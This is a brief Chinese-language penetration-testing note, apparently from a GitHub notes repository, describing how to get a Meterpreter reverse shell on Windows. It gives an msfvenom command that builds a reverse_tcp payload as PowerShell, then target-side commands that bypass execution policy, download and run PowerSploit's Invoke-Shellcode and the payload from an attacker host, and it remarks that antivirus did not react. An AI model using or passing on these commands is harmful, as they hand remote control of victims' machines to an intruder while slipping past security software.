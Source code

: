 	生成code
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f powershell -o /var/www/html/1.ps1
	目标执行
	> powershell -ep bypass
	> IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/powersploit/CodeExecution/Invoke-Shellcode.ps1')
	> IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.108/1.ps1')
	> Invoke-Shellcode -Shellcode ($buf) -Force

![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/82.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/83.png)

	防护软件没反应